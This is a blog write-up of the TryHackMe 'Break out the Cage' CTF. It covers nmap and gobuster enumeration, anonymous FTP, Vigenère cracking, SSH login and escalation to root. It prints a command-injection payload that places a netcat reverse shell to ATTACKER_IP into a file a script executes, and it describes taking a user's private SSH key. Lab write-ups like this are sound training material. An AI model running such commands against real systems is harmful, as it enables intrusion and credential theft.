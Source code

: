 ```yaml
---
layout: post
title:  "Break out the Cage - TryHackMe writeup"
date:   2024-08-23 10:42:00 +0200
categories: tryhackme ctf writeup
---
```

{:refdef: style="text-align: center;"}
[![Challenge logo](/assets/breakoutthecage/0_title.jpeg)](/assets/breakoutthecage/0_title.jpeg){:target="_blank"}
{:refdef}

**CTF Name**: [Break out the Cage](https://tryhackme.com/r/room/breakoutthecage1){:target="_blank"}  
**Description**: Help Cage bring back his acting career and investigate the nefarious goings on of his agent!  
**Categories**: Linux, Web Application, Privilege Escalation  
**Difficulty**: Easy  

The usual scan (**nmap -v -A -p- TARGET_IP -oN initial_scan.txt**) on the target reveals that all ports are in an ignored state.
To exclude that the target has only closed ports, let's run the same scan adding the **-sS** option (for **SYN half open** scan).
Remember to run this command via **sudo**.

{:refdef: style="text-align: center;"}
[![Nmap scan](/assets/breakoutthecage/1_nmap.png)](/assets/breakoutthecage/1_nmap.png){:target="_blank"}
{:refdef}

Indeed, some ports are open. Before visiting the target address with a browser, let's try connecting via FTP. We can login as the **anonymous** user (of course, without any password) and we can download a file, **dad_tasks**.

{:refdef: style="text-align: center;"}
[![FTP access](/assets/breakoutthecage/2_dad_tasks.png)](/assets/breakoutthecage/2_dad_tasks.png){:target="_blank"}
{:refdef}

This file contains a long string that looks encrypted. Pasting this into **CyberChef** reveals that it is a **Base64** encrypted string. However, decoding it does not give us understandable text yet.

{:refdef: style="text-align: center;"}
[![Decoding the string with CyberChef](/assets/breakoutthecage/3_cyberchef_1.png)](/assets/breakoutthecage/3_cyberchef_1.png){:target="_blank"}
{:refdef}

It actually looks like a **Vigenère cipher**. We don't know the key, but it can be bruteforced easily.

{:refdef: style="text-align: center;"}
[![Cracking the second string](/assets/breakoutthecage/4_vigenere_crack.png)](/assets/breakoutthecage/4_vigenere_crack.png){:target="_blank"}
{:refdef}

There is an interesting information at the end of this decrypted text.
It looks like a password, and inserting it as an answer to the first question gives us a green light.

Let's visit the website now while also enumerating it with **gobuster**.
The links are actually not functioning, so the only visible page seems to be the home page.

{:refdef: style="text-align: center;"}
[![Visiting the website](/assets/breakoutthecage/5_website.png)](/assets/breakoutthecage/5_website.png){:target="_blank"}
{:refdef}

Inspecting the source code we learn that an **/images** directory exists, however, it does not contain anything interesting.
Going back to **gobuster**, some interesting directories have popped out.

{:refdef: style="text-align: center;"}
[![Gobuster](/assets/breakoutthecage/6_gobuster.png)](/assets/breakoutthecage/6_gobuster.png){:target="_blank"}
{:refdef}

**/html** is empty, **/scripts** seems like a storage for movie scripts, while **/contracts** is of no use.

However, from the home page, we now know that **Weston** is a potential username. And we have a password in our hands. Let's try SSHing into our target with these credentials. Once we're in, we notice that there is another user, **cage**.

{:refdef: style="text-align: center;"}
[![SSH](/assets/breakoutthecage/7_ssh.png)](/assets/breakoutthecage/7_ssh.png){:target="_blank"}
{:refdef}

Running **sudo -l** we learn that we are allowed to run a specific program with sudo, **/usr/bin/bees**. Inspecting the file, we learn that it just displays a funny message about bees. It is also not writable by us so we cannot modify it to our advantage.

After a while we are surprised by a **broadcast message** by the user **cage**. May this message be displayed by a **cronjob**?

{:refdef: style="text-align: center;"}
[![Broadcast by Cage](/assets/breakoutthecage/8_broadcast.png)](/assets/breakoutthecage/8_broadcast.png){:target="_blank"}
{:refdef}

Let's check by reading **/etc/crontab**... unfortunately, no cronjobs are ran by root.

{:refdef: style="text-align: center;"}
[![Crontab](/assets/breakoutthecage/9_crontab.png)](/assets/breakoutthecage/9_crontab.png){:target="_blank"}
{:refdef}

To view cronjobs ran by other users we need root privileges, which we don't have (yet). However, we know that there must a program ran by cage *somewhere*, so we can search for it with find:

{% highlight bash %}
find / -type f -user cage 2>/dev/null
{% endhighlight %}

Indeed, two interesting files are found.

{:refdef: style="text-align: center;"}
[![Cage files](/assets/breakoutthecage/10_cage_files.png)](/assets/breakoutthecage/10_cage_files.png){:target="_blank"}
{:refdef}

One of those is a **Python script** that chooses a random quote from the other file, **.files/.quotes**, and broadcasts it with **wall**.

{:refdef: style="text-align: center;"}
[![Python script and quotes](/assets/breakoutthecage/11_python_script.png)](/assets/breakoutthecage/11_python_script.png){:target="_blank"}
{:refdef}

As we belong in the group **cage** (this can be verified with the **id** command), we could edit the program itself to, or we could craft a malicious command and echo it into that **.quotes** file, so that it would be picked up by the script and ran. We're going with the latter option as it is quieter. In this case we will simply open a **reverse shell**. The command **wall** expects something, so let's give it a string to be broadcasted, followed by our malicious command:

{% highlight bash %}
echo "something;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f" > /opt/.dads_scripts/.files/.quotes
{% endhighlight %}

{:refdef: style="text-align: center;"}
[![Preparing the malicious command](/assets/breakoutthecage/12_malicious_command.png)](/assets/breakoutthecage/12_malicious_command.png){:target="_blank"}
{:refdef}

Don't forget to also run the listener on the attacking machine with **nc -lvnp PORT**. In a couple minutes we should have our reverse shell.

{:refdef: style="text-align: center;"}
[![Waiting for the connection](/assets/breakoutthecage/13_listener.png)](/assets/breakoutthecage/13_listener.png){:target="_blank"}
{:refdef}

After converting our shell into a **fully interactive shell**, we can find some interesting files in cage's home. Reading the **SuperDuperChecklist** reveals the first flag of this challenge, while reading the emails we notice that the third email contains an interesting string.

{:refdef: style="text-align: center;"}
[![Cage's home](/assets/breakoutthecage/14_cage_home.png)](/assets/breakoutthecage/14_cage_home.png){:target="_blank"}
{:refdef}

Reading **.ssh/id_rsa** we can also exfiltrate cage's **private SSH key** so that if we need to login again we can bypass the reverse shell and directly login as cage. Anyways, the interesting string may be an encrypted string once again. Going down the same route as the last encrypted text, we could try again with a **Vigenère cipher**... but what's the key?
The same site as before is not able to find an appropriate key (it does "decrypt" our string, but the resulting text does not make any sense).
The email contains several references to **cage's face** (and to the movie itself)... could **face** be the key?

{:refdef: style="text-align: center;"}
[![Another encrypted string](/assets/breakoutthecage/15_face.png)](/assets/breakoutthecage/15_face.png){:target="_blank"}
{:refdef}

Indeed, it looks like we got another interesting string. Perhaps it could be someone's password. Trying with **sudo** we find out that it is not cage's password.

{:refdef: style="text-align: center;"}
[![Whose is this password?](/assets/breakoutthecage/16_failed_attempt.png)](/assets/breakoutthecage/16_failed_attempt.png){:target="_blank"}
{:refdef}

We already know weston's password... there is only one user left, **root**! Let's try with **su**, input the password... and there we are, **root shell**! The only thing left to do is to read the **root flag**.

{:refdef: style="text-align: center;"}
[![Root shell and flag](/assets/breakoutthecage/17_root_shell.png)](/assets/breakoutthecage/17_root_shell.png){:target="_blank"}
{:refdef}